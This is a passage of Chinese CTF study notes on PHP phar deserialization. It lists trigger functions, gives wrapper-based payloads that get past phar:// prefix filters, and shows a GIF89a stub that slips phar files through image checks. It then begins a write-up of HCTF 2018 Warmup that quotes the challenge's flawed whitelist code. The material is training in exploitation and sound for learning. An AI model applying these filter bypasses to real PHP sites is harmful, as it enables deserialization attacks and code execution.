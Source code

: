 ```php
    md5_file
    sha1_file
file / url
    get_meta_tags
    get_headers
```

<h4 id="zm9rT">常见的绕过方法</h4>
<h5 id="C8OHD"><font style="color:#000000;">绕过phar://开头</font></h5>
```php
compress.bzip://phar://a.phar/test1.txt
compress.bzip2://phar://a.phar/test1.txt
compress.zlib://phar://a.phar/test1.txt
php://filter/resource=phar://a.phar/test1.txt
php://filter/read=convert.base64-encode/resource=phar://a.phar/test1.txt
```

<h5 id="civYt">绕过图片检查</h5>
+ <font style="color:rgba(0, 0, 0, 0.75);">可以修改phar文件名的后缀</font>
+ <font style="color:rgba(0, 0, 0, 0.75);">文件开头添加GIFB9a绕过十六进制检查</font>

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

<h2 id="GzXUW">做题wp</h2>
<h3 id="a6Vwf">[HCTF 2018]Warmup</h3>
看到笑脸 打开源代码发现提示让我们访问source.php

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736690281760-5d91ee92-dcbd-4115-a932-18577e3ee57e.png)

随后出现php代码

```php
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
```